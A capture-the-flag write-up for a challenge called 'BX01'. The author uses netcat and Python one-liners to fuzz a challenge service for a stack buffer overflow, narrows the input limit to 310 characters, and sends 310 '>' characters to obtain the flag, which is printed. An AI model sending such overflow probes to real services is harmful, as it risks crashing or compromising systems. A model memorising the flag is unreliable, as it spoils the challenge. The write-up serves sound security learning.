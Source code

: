 # BX01
> 1,000pts

## Briefing
> Access the network service at url: `cfta-bx01.allyourbases.co` and port: `8012` and find a way to get the flag by formatting a valid request.

## Solution
Netcatting in, we're told that there's an exception where angle brackets are not terminated. After providing input, it states that it is terminating due to the exception remaining unresolved.

I first tried to just put an angle bracket in there.
```console
➜ ~ $ nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
>
Error: Exception unresolved. Terminating.
➜ ~ $
```
That didn't help. Maybe it's vulnerable to a buffer overflow?
```console
➜ ~ $ python -c "print('a'*100)" | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
Error: Exception unresolved. Terminating.
➜ ~ $ python -c "print('a'*1000)" | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
*** stack smashing detected ***
➜ ~ $
```
Yes, it is! I ran the payload a few more times to narrow down on the size of the input buffer, and eventually I discovered that you can put in a maximum of `310` characters.
```console
➜ ~ $ python -c "print('a'*311)" | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
*** stack smashing detected ***
➜ ~ $ python -c "print('a'*310)" | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
➜ ~ $
```
Let's try putting lots of `>` in, rather than `a`s.
```console
➜ ~ $ python -c "print('>'*310)" | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
Request successful.

Flag: AlOnGSeaRcHFoROverWriTe
➜ ~ $
```

And we have our flag.

## Flag
Flag: `AlOnGSeaRcHFoROverWriTe`
